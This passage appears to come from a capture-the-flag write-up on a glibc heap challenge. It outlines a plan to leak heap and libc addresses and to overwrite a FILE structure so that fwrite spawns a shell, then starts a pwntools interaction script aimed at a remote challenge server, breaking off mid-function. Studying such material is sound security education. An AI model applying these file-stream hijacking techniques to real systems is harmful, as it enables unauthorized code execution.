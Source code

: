 To make this exploit work we'll need:
- a heap leak
- a libc leak

### Exploit Plan

- Use the fact that malloc doesn't clear memory when redistributing chunk to get a heap leak
- Open the file stream to "/tmp/chonccfile"
- Close the file stream -> File stream's freed chunk gets encrypted with random xor
- Allocate a 0x1d8 sized chunk to get the redistributed file stream chunk
- Read it and decrypt it using the random bypass we talked about earlier
- Get libc leak from the decrypted data
- Overwrite the file structure so that fwrite will trigger system("/bin/sh")
- Use the "write choncc file" option to call fwrite and trigger our payload

## Let's start exploiting !

As I do with any "menu with options challenge", I created a basic python script to interact with each option 
from our script:  

```py
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('./chall')
context.terminal = ['alacritty', '-e']

gs = """
continue
"""
if args.REMOTE:
    io = remote("193.148.168.30", 7669)
else:
    io = process()
    if args.GDB:
        gdb.attach(io, gdbscript=gs)

libc = elf.libc
context.log_level = 'info'

def create_chonc(size: int):
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b':\n', str(size).encode())

def view_chonc(number: int):
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b':\n', str(number).encode())

def edit_chonc(number: int, content: bytes):
    io.sendlineafter(b'> ', b'3')
    io.sendlineafter(b':\n', str(number).encode())
    io.sendlineafter(b':\n', content)

def delete_chonc(number: int):
    io.sendlineafter(b'> ', b'4')
    io.sendlineafter(b':\n', str(number).encode())

def create_chonc_file():
    io.sendlineafter(b'> ', b'5')

def delete_chonc_file():
```